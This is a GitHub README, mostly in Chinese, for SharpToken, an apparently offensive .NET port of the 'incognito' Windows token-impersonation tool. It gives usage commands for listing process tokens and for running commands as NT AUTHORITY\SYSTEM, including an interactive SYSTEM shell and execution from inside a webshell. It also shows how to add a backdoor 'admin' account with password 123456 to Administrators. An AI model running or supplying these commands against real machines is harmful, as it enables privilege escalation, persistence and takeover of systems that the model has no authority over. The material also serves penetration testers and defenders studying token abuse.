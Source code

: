 # SharpToken


.NET版本的incognito

![image](https://user-images.githubusercontent.com/43266206/176751034-a6f46325-d221-407b-a50c-281862a17ea1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

Usage:

SharpToken COMMAND arguments

COMMANDS:

        list_token [process pid]

        list_all_token [process pid]

        add_user <tokenUser> <username> <password> [group] [domain]

        delete_user <tokenUser> <username> [domain]

    execute <tokenUser> <commandLine> [Interactive]


example:
    SharpToken list_token
    SharpToken list_token 6543
    SharpToken add_user "NT AUTHORITY\SYSTEM" admin 123456 Administrators
    SharpToken delete_user "NT AUTHORITY\SYSTEM" admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
```


## 枚举Token

枚举的信息包括SID,LogonDomain,UserName,Session,LogonType,TokenType,TokenHandle(Duplicate后的Token句柄),TargetProcessId(Token来源的进程),TargetProcessToken(Token在源进程的句柄)，Groups(Token用户所在组)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## 从指定进程枚举Token

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## 获得交互式shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## 获取命令执行结果(webshell下执行)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)
